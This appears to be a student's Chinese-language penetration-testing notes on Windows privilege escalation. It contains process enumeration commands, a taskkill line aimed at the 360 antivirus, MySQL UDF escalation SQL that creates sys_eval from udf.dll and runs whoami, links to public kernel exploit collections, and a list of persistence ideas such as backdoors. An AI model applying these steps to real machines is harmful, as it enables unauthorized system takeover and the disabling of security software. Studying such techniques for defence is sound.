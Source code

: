 ## 44.windows提权
#windows提权
## 44.windows提权

1.   系统本身的漏洞
2.   第三方app：数据库、软件、qq

```shell
netstat -ano #查看端口
tasklist | find "PID" key #查找pid
#漏洞 提权 命令执行
tasklist
tasklist | find "360"
taskkill /im "name" /f
```

### 44.1 mysql udf 提权

```mysql
create function sys_eval returns string soname 'udf.dll';
#引入sys_eval函数
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');
#当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。
#当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。
```

### 44.2 mysql mof 提权

### 44.3 filezilla 提权

### 44.4 各方发布的exp提权漏洞

https://technet.microsoft.com/zh-cn/library/security/dn639106.aspx

https://github.com/SecWiki/windows-kernel-exploits 

https://github.com/WindowsExploits/Exploits 

https://github.com/AusJock/Privilege-Escalation



### 44.-1 其他

1.   启动项
2.   后门
3.   cmd
4.   net
5.   asp、php、aspx、jsp（几乎最高权限）
6.   systeminfo：查询系统详细信息包括漏洞和补丁等，找寻对应漏洞的工具即可
